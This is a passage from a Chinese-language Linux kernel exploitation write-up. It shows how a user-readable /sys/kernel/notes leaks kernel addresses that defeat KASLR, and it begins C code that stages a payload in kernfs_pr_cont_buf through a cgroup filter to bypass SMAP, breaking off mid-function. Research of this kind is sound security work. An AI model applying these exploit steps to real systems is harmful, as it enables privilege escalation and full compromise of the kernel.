 ‍

第一个问题，在 ubuntu 的 /sys/kernel/notes 文件地权限用户可读，里面会有一些内核镜像地址可以用于计算内核镜像基地址

```plain
ubuntu@ubuntu-2204:~$ xxd /sys/kernel/notes
00000000: 0400 0000 0600 0000 0600 0000 5865 6e00  ............Xen.
00000010: 6c69 6e75 7800 0000 0400 0000 0400 0000  linux...........
00000020: 0700 0000 5865 6e00 322e 3600 0400 0000  ....Xen.2.6.....
00000030: 0800 0000 0500 0000 5865 6e00 7865 6e2d  ........Xen.xen-
00000040: 332e 3000 0400 0000 0800 0000 0300 0000  3.0.............
00000050: 5865 6e00 0000 0080 ffff ffff 0400 0000  Xen.............
00000060: 0800 0000 0f00 0000 5865 6e00 0000 0000  ........Xen.....
00000070: 8000 0000 0400 0000 0800 0000 0100 0000  ................
00000080: 5865 6e00 c011 e682 ffff ffff 0400 0000  Xen.............
00000090: 0800 0000 0200 0000 5865 6e00 00a0 e381  ........Xen.....
000000a0: ffff ffff 0400 0000 2900 0000 0a00 0000  ........).......
000000b0: 5865 6e00 2177 7269 7461 626c 655f 7061  Xen.!writable_pa
000000c0: 6765 5f74 6162 6c65 737c 7061 655f 7067  ge_tables|pae_pg
000000d0: 6469 725f 6162 6f76 655f 3467 6200 0000  dir_above_4gb...
000000e0: 0400 0000 0400 0000 1100 0000 5865 6e00  ............Xen.
000000f0: 0188 0000 0400 0000 0400 0000 0900 0000  ................
00000100: 5865 6e00 7965 7300 0400 0000 0800 0000  Xen.yes.........
00000110: 0800 0000 5865 6e00 6765 6e65 7269 6300  ....Xen.generic.
00000120: 0400 0000 1000 0000 0d00 0000 5865 6e00  ............Xen.
00000130: 0100 0000 0000 0000 0100 0000 0000 0000  ................
00000140: 0400 0000 0400 0000 0e00 0000 5865 6e00  ............Xen.
00000150: 0100 0000 0400 0000 0400 0000 1000 0000  ................
00000160: 5865 6e00 0100 0000 0400 0000 0800 0000  Xen.............
00000170: 0c00 0000 5865 6e00 0000 0000 0080 ffff  ....Xen.........
00000180: 0400 0000 0800 0000 0400 0000 5865 6e00  ............Xen.
00000190: 0000 0000 0000 0000 0400 0000 1400 0000  ................
000001a0: 0300 0000 474e 5500 f340 a850 cc47 a7e1  ....GNU..@.P.G..
000001b0: f80b 4749 4122 28f1 fddf 3c89 0600 0000  ..GIA"(...<.....
000001c0: 0400 0000 0101 0000 4c69 6e75 7800 0000  ........Linux...
000001d0: 0000 0000 0600 0000 0100 0000 0001 0000  ................
000001e0: 4c69 6e75 7800 0000 0000 0000 0400 0000  Linux...........
000001f0: 0800 0000 1200 0000 5865 6e00 f009 0001  ........Xen.....
00000200: 0000 0000                                ....
ubuntu@ubuntu-2204:~$
```

第二个问题的解决是利用 cgroup filter 在 kernfs\_pr\_cont\_buf 里面放置数据，kernfs\_pr\_cont\_buf 的地址可以通过内核镜像的基地址计算，布置数据的代码如下：

```plain
static void prepare_smap_bypass(char *payload)
{
    pid_t pid;
    int fd;
    char buf[128];
    int a[2];
    int b[2];
    char c;
    char path[128];

    if(pipe(a) < 0) die("pipe");
    if(pipe(b) < 0) die("pipe");

    pid = fork();

    if(pid < 0) die("fork");

    if(pid == 0)
    {
        unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWNET);
```